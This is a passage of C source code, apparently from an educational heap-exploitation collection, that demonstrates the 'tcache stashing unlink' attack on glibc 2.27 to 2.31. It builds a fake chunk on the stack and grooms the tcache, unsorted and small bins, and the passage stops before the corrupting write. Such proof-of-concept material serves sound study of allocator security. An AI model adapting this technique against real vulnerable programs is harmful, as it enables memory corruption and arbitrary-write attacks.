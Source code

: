 源代码：

```plain
#include <stdio.h>
#include <stdlib.h>
#include <assert.h>

int main(){
    unsigned long stack_var[0x10] = {0};
    unsigned long *chunk_lis[0x10] = {0};
    unsigned long *target;

    setbuf(stdout, NULL);

    printf("This file demonstrates the stashing unlink attack on tcache.\n\n");
    printf("This poc has been tested on both glibc-2.27, glibc-2.29 and glibc-2.31.\n\n");
    printf("This technique can be used when you are able to overwrite the victim->bk pointer. Besides, it's necessary to alloc a chunk with calloc at least once. Last not least, we need a writable address to bypass check in glibc\n\n");
    printf("The mechanism of putting smallbin into tcache in glibc gives us a chance to launch the attack.\n\n");
    printf("This technique allows us to write a libc addr to wherever we want and create a fake chunk wherever we need. In this case we'll create the chunk on the stack.\n\n");

    // stack_var emulate the fake_chunk we want to alloc to
    printf("Stack_var emulates the fake chunk we want to alloc to.\n\n");
    printf("First let's write a writeable address to fake_chunk->bk to bypass bck->fd = bin in glibc. Here we choose the address of stack_var[2] as the fake bk. Later we can see *(fake_chunk->bk + 0x10) which is stack_var[4] will be a libc addr after attack.\n\n");

    stack_var[3] = (unsigned long)(&stack_var[2]);

    printf("You can see the value of fake_chunk->bk is:%p\n\n",(void*)stack_var[3]);
    printf("Also, let's see the initial value of stack_var[4]:%p\n\n",(void*)stack_var[4]);
    printf("Now we alloc 9 chunks with malloc.\n\n");

    //now we malloc 9 chunks
    for(int i = 0;i < 9;i++){
        chunk_lis[i] = (unsigned long*)malloc(0x90);
    }

    //put 7 chunks into tcache
    printf("Then we free 7 of them in order to put them into tcache. Carefully we didn't free a serial of chunks like chunk2 to chunk9, because an unsorted bin next to another will be merged into one after another malloc.\n\n");

    for(int i = 3;i < 9;i++){
        free(chunk_lis[i]);
    }

    printf("As you can see, chunk1 & [chunk3,chunk8] are put into tcache bins while chunk0 and chunk2 will be put into unsorted bin.\n\n");

    //last tcache bin
    free(chunk_lis[1]);
    //now they are put into unsorted bin
    free(chunk_lis[0]);
    free(chunk_lis[2]);

    //convert into small bin
    printf("Now we alloc a chunk larger than 0x90 to put chunk0 and chunk2 into small bin.\n\n");

    malloc(0xa0);// size > 0x90

```